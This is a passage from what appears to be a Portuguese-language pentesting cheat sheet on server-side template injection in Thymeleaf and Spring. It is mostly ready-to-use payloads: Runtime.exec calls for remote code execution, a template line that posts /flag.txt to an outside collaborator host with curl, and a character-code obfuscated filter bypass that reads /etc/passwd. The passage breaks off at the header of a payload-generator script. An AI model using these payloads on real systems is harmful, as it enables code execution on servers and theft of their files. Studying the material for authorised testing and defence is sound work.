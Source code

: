 A expressão de teste típica para SSTI é `${7*7}`. Esta expressão também funciona no Thymeleaf. Se você deseja alcançar execução remota de código, pode usar uma das seguintes expressões de teste:

* SpringEL: `${T(java.lang.Runtime).getRuntime().exec('calc')}`
* OGNL: `${#rt = @java.lang.Runtime@getRuntime(),#rt.exec("calc")}`

No entanto, como mencionamos anteriormente, expressões só funcionam em atributos especiais do Thymeleaf. Se for necessário usar uma expressão em um local diferente no template, o Thymeleaf suporta _inserção de expressões_. Para usar esse recurso, você deve colocar uma expressão dentro de `[[...]]` ou `[(...)]` (escolha um ou outro dependendo se você precisa escapar símbolos especiais). Portanto, um payload simples de detecção de SSTI para Thymeleaf seria `[[${7*7}]]`.

As chances de o payload de detecção acima funcionar são, no entanto, muito baixas. Vulnerabilidades de SSTI geralmente ocorrem quando um template é gerado dinamicamente no código. Por padrão, o Thymeleaf não permite tais templates gerados dinamicamente e todos os templates devem ser criados anteriormente. Portanto, se um desenvolvedor deseja criar um template a partir de uma string _em tempo real_, ele precisaria criar seu próprio TemplateResolver. Isso é possível, mas acontece muito raramente.

Se olharmos mais a fundo na documentação do motor de template do Thymeleaf, encontraremos um recurso interessante chamado _**pré-processamento de expressões**_. Expressões colocadas entre duplos sublinhados (`__...__`) são pré-processadas e o resultado do pré-processamento é usado como parte da expressão durante o processamento regular. Aqui está um exemplo oficial da documentação do Thymeleaf:
```java
#{selection.__${sel.code}__}
```
**Exemplo Vulnerável**
```markup
<a th:href="@{__${path}__}" th:title="${title}">
<a th:href="${''.getClass().forName('java.lang.Runtime').getRuntime().exec('curl -d @/flag.txt burpcollab.com')}" th:title='pepito'>

http://localhost:8082/(7*7)
http://localhost:8082/(${T(java.lang.Runtime).getRuntime().exec('calc')})
```
**Mais informações**

* [https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/](https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/)

{% content-ref url="el-expression-language.md" %}
[el-expression-language.md](el-expression-language.md)
{% endcontent-ref %}

### Spring Framework (Java)
```java
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}
```
**Bypass de filtros**

Múltiplas expressões de variáveis podem ser usadas, se `${...}` não funcionar tente `#{...}`, `*{...}`, `@{...}` ou `~{...}`.

* Ler `/etc/passwd`
```java
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```
* Script Personalizado para geração de payload
```python
#!/usr/bin/python3

## Written By Zeyad Abulaban (zAbuQasem)
```